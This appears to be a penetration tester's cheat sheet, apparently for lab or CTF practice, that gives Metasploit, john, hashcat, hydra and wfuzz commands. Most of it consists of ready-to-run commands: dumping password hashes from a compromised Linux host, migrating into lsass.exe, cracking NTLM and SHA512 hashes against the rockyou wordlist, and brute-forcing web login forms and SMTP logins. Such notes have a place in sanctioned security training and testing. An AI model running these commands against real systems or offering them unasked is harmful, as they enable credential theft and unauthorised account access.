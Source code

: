 # Password/Hashes

## **Password Cracker: Linux**

```bash
use post/linux/gather/hashdump
set SESSION 1
exploit
use auxiliary/analyze/crack_linux
set SHA512 true
run

john --format=sha512crypt /root/.msf4/loot/20230621120442_default_192.223.112.3_linux.hashes_019560.txt --wordlist=/usr/share/wordlists/rockyou.txt
hashcat -a3 -m 1400 hashs /usr/share/wordlist/rockyou.txt

```

## Crack Hashs

```bash
migrate -N lsass.exe
john --format=NT hash.txt
john --format=NT hash.txt
hashcat --help | grep NTLM
hashcat -a3 -m 1000 hash.txt --wordlist /usr/share/wordlists/rockyou.txt

background
creds
use auxiliary/analyze/crack_windows
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit
```

# **Password Cracking**

- `hash-identifier [hash]`
- `john hashes.txt`
- `hashcat -m 500 -a 0 -o output.txt –remove hashes.txt /usr/share/wordlists/rockyou.txt`
- `hashcat -m 1000 dump.txt -o output.txt --remove -a 3 ?u?l?l?d?d?d?d`
    - Brute force crack for NTLM hashes with an uppercase, lowercase, lowercase, and 4 digit mask
- List of hash types and examples for hashcat [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [https://hashkiller.co.uk](https://hashkiller.co.uk/) has a good repo of already cracked MD5 and NTLM hashes

# **Bruteforcing**

- `hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin`
- `hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt IPADDR PROTOCOL`
- `hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp –V`
    - Hydra SMTP Brute force
    
    `wfuzz -u [http://teacher.htb/moodle/login/index.php](http://teacher.htb/moodle/login/index.php) -d 'anchor=&username=Giovanni&password=Th4C00lTheachaFUZZ' -w /usr/share/SecLists/Fuzzing/special-chars.txt`
    
- Unshadow
    
    The unshadow tool’s usage can be seen below;
    
    `unshadow passwd.txt shadow.txt > passwords.txt`
    
    ![https://i.imgur.com/6cHBAr1.png](https://i.imgur.com/6cHBAr1.png)